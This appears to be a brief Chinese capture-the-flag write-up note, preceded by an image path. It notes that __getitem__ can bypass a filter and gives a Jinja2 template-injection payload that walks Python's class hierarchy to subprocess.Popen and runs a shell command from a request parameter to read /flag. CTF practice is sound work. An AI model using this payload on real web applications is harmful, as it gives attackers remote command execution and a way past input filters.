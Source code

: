 # 知识点
可以用__getitem绕过
# 思路
```python
?name={{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(407)(request.values.a,shell=True,stdout=-1).communicate().__getitem__(0)}}&a=cat /flag
```
